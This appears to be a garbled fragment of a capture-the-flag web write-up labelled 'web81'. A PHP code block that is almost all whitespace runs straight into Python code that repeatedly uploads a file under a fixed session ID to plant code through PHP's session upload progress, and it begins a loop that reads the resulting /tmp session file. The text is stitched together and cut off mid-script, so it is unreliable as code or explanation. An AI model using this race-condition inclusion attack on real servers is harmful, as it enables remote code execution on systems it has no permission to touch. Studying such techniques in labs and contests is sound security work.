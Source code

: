 ![image-20241121202826975](./assets/image-20241121202826975.png)

#### web81

```php
<?php

                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       ?>');?>"
    data = {'PHP_SESSION_UPLOAD_PROGRESS': code}
    cookies = {'PHPSESSID': PHPSESSID}
    files = {'file': ('xxx.txt', BytesIO(b'x' * 10240))}
    while True:
        post(URL, data, cookies=cookies, files=files)


def read():
    params = {'file': f'/tmp/sess_{PHPSESSID}'}
    while True:
```